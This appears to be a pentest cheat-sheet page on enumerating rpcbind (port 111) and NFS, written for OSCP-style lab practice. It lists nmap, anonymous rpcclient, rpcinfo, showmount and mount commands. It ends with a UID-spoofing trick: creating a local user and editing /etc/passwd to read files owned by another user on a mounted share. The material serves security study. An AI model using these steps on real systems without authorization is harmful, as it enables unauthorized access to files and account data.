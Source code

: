 # Port 111 - Rpcbind/portmapper

Port 111 is associated with the Remote Procedure Call (RPC) protocol's portmapper service. The RPC portmapper service, often referred to as "rpcbind" in modern implementations.

### Enumeration

{% code overflow="wrap" %}
```bash
# Check if rpcbind running in the subnet
nmap -sV -p111 --script=rpcinfo 10.11.1.1-254

# Check if rpcbind running on the box
nmap -sSUC -p111 192.168.10.1

# Login to the port
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
	querydispinfo

# rpcbind + NFS
nmap -p 111 --script nfs* 10.11.1.72

rpcinfo -p 10.11.1.111  # enum NFS shares
showmount -e 10.11.1.111 # show if we can mount

```
{% endcode %}

### NFS Share Mount

See [Port 2049 - NFS](https://app.gitbook.com/o/sbYQpaBkV0ueQjvLIdTt/s/nA4bAkddGXesk1QCLYAY/~/changes/187/enumeration/port-2049-nfs) section.

{% code overflow="wrap" %}
```bash
# Check more Port 2049 - NFS

sudo mount -t nfs 10.11.1.111:/ /mnt -o nolock  # mount remote share to local machine
sudo mount -t nfs -o nfsvers=3 10.11.1.72:/home /mnt/ # version3
sudo mount -t nfs -o nfsvers=3 10.11.1.72:/home ~/oscp/lab/10.11.1.72/home/
# -o: options
# -t: types

# If you mount a folder which contains files or folders only accesible by some user (by UID). You can create locally a user with that UID and using that user you will be able to access the file/folder. For example, the folder permission looks like below.

# drwxr-xr-x    2    1014 1014 4096    home
# drwxr-xr-x    2    1014 1014 4096    folder1

cd home/ && ls
sudo adduser pwn
sudo sed -i -e 's/1001/1014/g' /etc/passwd
cat /etc/passwd | grep pwn
su pwn
```
{% endcode %}

